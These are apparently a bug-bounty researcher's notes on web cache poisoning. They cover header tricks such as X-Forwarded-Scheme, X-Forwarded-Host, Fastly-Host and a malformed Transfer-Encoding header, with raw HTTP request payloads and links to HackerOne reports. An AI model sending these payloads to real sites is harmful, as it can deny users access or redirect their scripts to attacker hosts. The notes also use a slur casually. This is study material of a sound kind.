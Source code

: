 # x-forwarded-scheme on Rails Applications

    X-Forwarded-Scheme - Rack Middleware
    X-Forwarded-Scheme: http        results into a 301 redirect to the same location.

If the response is cached by a CDN, it would cause a redirect loop, denying access to the file

# TESTING FOR CACHE POISONING

# Using multiple headers to exploit web cache poisoning
    # Max bounty $3k Exploit
    GET /main/static.js HTTP/1.1
    Host: redacted.com
    X-Forwarded-Scheme: https
    X-Forwarded-Host: site_to_redirect_to.com
[Cache Poisoning leads to JS files redirection](https://hackerone.com/reports/1795197)

# x-http-method-override on Fastly and GCS
[X-Http-Method-Override header behavior](https://www.fastly.com/documentation/guides/integrations/non-fastly-services/google-cloud-storage/#x-http-method-override-header-behavior)f
> x-http-method-override: HEAD

# Fastly-Host header injection

    GET /?cb=1 HTTP/1.1
    Host: anything-goes-here.com
    Fastly-Host: legit-host.com

# Top-Tier $9,700 Real World Exploit on PayPal
[DoS on PayPal via web cache poisoning](https://hackerone.com/reports/622122)
[Responsible denial of service with web cache poisoning](https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning)

    GET /?wuhuh=1 HTTP/1.1
    Host: redacted.com
    zTRANSFER-ENCODING: asdf

    HTTP/1.1 501 NOT IMPLEMENTED
    Cache-Control: max-age=900
    X-Cache-Info: cached

# Real World Exploit - Slash Confusion
To be honest, this opens my mind to do further research in to cache poisoning, web cache deception, host header injection, 
in short any kind of vulnerability that relies on causing desyncs between 2 systems. 
Like which kind of a `retard` would think that using the different route handling between Windows and *nix systems 
would cause Origin Server Confusions? That kind of retard, is a shrewd security researcher and that is the kind of 
retard that I want to be. 
